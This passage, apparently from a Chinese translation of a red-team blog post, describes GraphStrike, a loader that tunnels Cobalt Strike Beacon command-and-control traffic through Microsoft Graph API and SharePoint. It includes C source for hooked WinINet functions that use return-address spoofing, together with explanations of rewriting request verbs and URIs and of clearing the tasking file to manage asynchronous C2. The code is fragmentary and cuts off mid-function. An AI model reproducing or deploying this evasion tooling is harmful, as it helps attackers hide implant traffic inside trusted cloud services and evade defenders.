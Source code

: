 ```plain
        hResult =  ( HINTERNET )SPOOF( pMemAddrs->Api.net.HttpOpenRequestA, 
                                        pMemAddrs->Api.net.hNet, 
                                        pMemAddrs->Api.net.size, 
                                        hInternet, 
                                        C_PTR( lpszVerb ), 
                                        C_PTR( lpszObjectName ), 
                                        C_PTR( lpszVersion ), 
                                        C_PTR( lpszReferrer ), 
                                        C_PTR( lplpszAcceptTypes ), 
                                        C_PTR( U_PTR( dwFlags ) ),
                                        C_PTR( U_PTR( dwContext ) ) );

    return hResult;
};
```

在代码的第 18 行，我们将检查 Beacon 传递给 HttpOpenRequestA\_Hook 的 "lpszVerb "变量，以确定对 HttpOpenRequestA 的调用是 http-get 循环的一部分，还是 http-post 循环的一部分。我们在配置文件中为 Beacon 的 http-get 和 http-post 请求设置了动词，因此我们可以根据 Beacon 尝试使用的动词来判断这是哪种请求。这种判断在第 27 行使用，请求类型决定了在真正调用 HttpOpenRequestA 时作为参数使用的 "verb "和 "uri"。在这里，我们利用了对 Beacon 提供的参数的控制，使用了在 SharePoint 中首次创建文件时组装的上传 URI，并在 http-post 请求中用 "PUT "代替了 "POST"，这样我们就可以使用 Graph API 的 Upload 方法。真正的 API 最终会在第 39 行调用，使用我们自定义的 "verb "和 "uri "参数代替 Beacon 指定的原始 "lpszVerb "和 "lpszObjectName "参数。

GraphLdr 还支持使用正常的 Cobalt Strike HTTPS Beacon。在导入 "graphstrike.cna" 时，Cobalt Strike 创建的所有 Beacon 都将使用 GraphLdr 作为 Beacon 的 UDRL，但只有当 Beacon 的主机设置为 "graph.microsoft.com "时，我们才真正需要在 GraphLdr 中完成所有额外工作。至于 Beacon 是 GraphStrike 还是标准 HTTPS，我们将在 InternetConnectA\_Hook 函数中通过检查 Beacon 指定的 "lpszServerName "参数来确定。其结果将在上述代码段的第 15 行中使用，在该行中，我们将根据此布尔值进行分支。对于普通 HTTPS Beacon，真正的 API 会在第 54 行调用，并使用 Beacon 发送的所有未经修改的原始参数（尽管我们仍在使用 AceLdr 的返回地址欺骗功能）。

-   虽然 GraphStrike 支持在使用 GraphStrike 信号的同时使用标准 HTTPS 信号，但 Cobalt Strike 配置文件还不够灵活，因此这一点并不实用。4.9 版本增加了主机配置文件，但这些配置文件只允许自定义 URI、标头和参数，还不支持按主机指定 Beacon 元数据和会话 ID 的发送方式，也不支持 TS 的回复方式。这就导致标准 HTTPS Beacon 使用了前面 "Beacon 数据和配置文件语言 "部分讨论过的未加混淆的选项。我已经与 Cobalt Strike 团队讨论过这个问题，他们希望在 2024 年的某个时候扩展对这种自定义级别的支持。

# 同步与异步

我已经详细讨论了 GraphStrike 的通信模型，本质上是异步的以及随之而来的挑战，但还有一个问题必须讨论和缓解。Beacon 不断向 TS 任务文件发出 GET 请求以下载任务，GraphStrike 服务器类似地向 Beacon 输出文件发出 GET 请求以下载输出；无论该文件中存储了什么，他们都会采取并采取行动。这提出了两种问题场景：

1.  在 Cobalt Strike 中发出命令并上传到 TS 任务分配文件。Beacon 下载命令，运行它，然后发送它的输出。当 Beacon 完成休眠后，它会再次从 TS 任务文件下载并运行相同的命令，因为 Cobalt Strike 没有发出额外的命令来“擦除”任务文件。
2.  在另一方成功下载第一次上传的数据之前，Beacon 或 GraphStrike 服务器会两次上传到 SharePoint 中各自的文件。这会导致数据丢失并破坏诸如依赖于来回顺序数据交换的 SOCKS 代理之类的功能。

幸运的是，对于这两种情况都有一个单一的解决方案。当 Beacon 向 TS 任务文件发出 GET 请求并返回数据时，会重复调用 InternetReadFile，直到没有更多数据可供读取。当然，因为我们已经挂钩了这个 API，所以我们的自定义函数会被调用，其中我们会等到读取所有响应数据，然后再将空白文件上传到 TS 任务文件。这可以在以下代码片段的第 32 行看到，其中调用了“MakeWebRequest”。请注意“httpGetUri”和“PUT\_VERB”一起使用的独特组合：

```plain
SECTION( D ) BOOL InternetReadFile_Hook( HINTERNET hFile, 
                                          LPVOID lpBuffer, 
                                          DWORD dwNumberOfBytesToRead, 
                                          LPDWORD lpdwNumberOfBytesRead )
{
    BOOL bResult = FALSE;

    // Resolve API's
    struct MemAddrs* pMemAddrs = *(struct MemAddrs**)((PMEMADDR) OFFSET ( MemAddr ) )->address;

    // Call InternetReadFile
    bResult = ( BOOL )U_PTR( SPOOF( pMemAddrs->Api.net.InternetReadFile, 
                                     pMemAddrs->Api.net.hNet, 
                                     pMemAddrs->Api.net.size, 
                                     hFile, 
                                     C_PTR ( lpBuffer ), 
                                     C_PTR( U_PTR ( dwNumberOfBytesToRead ) ), 
```